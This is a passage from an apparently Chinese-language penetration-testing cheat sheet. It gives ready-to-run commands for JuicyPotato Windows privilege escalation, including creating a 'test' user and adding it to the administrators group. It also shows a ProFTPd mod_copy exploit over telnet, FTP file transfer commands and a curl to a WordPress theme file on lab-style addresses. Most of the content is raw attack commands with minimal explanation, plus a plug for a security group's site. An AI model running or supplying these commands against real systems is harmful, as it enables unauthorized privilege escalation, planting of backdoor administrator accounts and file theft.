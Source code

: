 ```
6d18ad12-bde3-4393-b311-099c346e6df9

# 选择系统未占用的端口作为监听端口
# 最终提权命令如
C:\wmpub\JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1111 -c {6d18ad12-bde3-4393-b311-099c346e6df9}


```

  
另一个大佬写的webshell、shellcode的juicyPotato.exe  

```
# 下载地址
https://github.com/uknowsec/JuicyPotato

# 提权命令
C:\juicyPotato_32.exe -p whoami

# 执行命令
execute -f juicypotato.exe -p net user test 123456
execute -f juicypotato.exe -p net localgroup administrators test /add

```

  
...... 持续更新中，访问泷羽Sec官网即可，longyusec.com  
## FTP系列  
  
ProFTPd拷贝漏洞  

```
telnet 10.10.10.198 21
site cpfr /home/patrick/version_control # 将这个文件拷贝
site cpto /home/ftp/upload/version_control # 拷贝的文件放到这里

```

  
ftp常用命令  

```
get version_control # 下载文件
send version_control # 将本地文件发送到服务器（上传）

```

### CMS系列  
  
wordpress默认主题目录（主题名称需要小写）  

```
curl http://10.10.10.203/wordpress/wp-content/themes/twentynineteen/secret.php

```
